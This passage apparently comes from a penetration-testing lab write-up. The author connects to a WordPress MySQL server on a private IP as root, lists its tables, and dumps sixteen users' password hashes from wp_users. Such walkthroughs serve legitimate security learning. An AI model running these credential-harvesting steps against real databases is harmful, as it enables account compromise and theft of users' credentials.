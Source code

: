 ``` 
root@kali:~# mysql -u root -h 192.168.217.141 wordpress -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 21183
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [wordpress]> 
```

I logged in to the DB and grabbed the password hashes:

``` 
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

MySQL [wordpress]> SELECT user_login, user_pass FROM wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+------------------------------------+
```

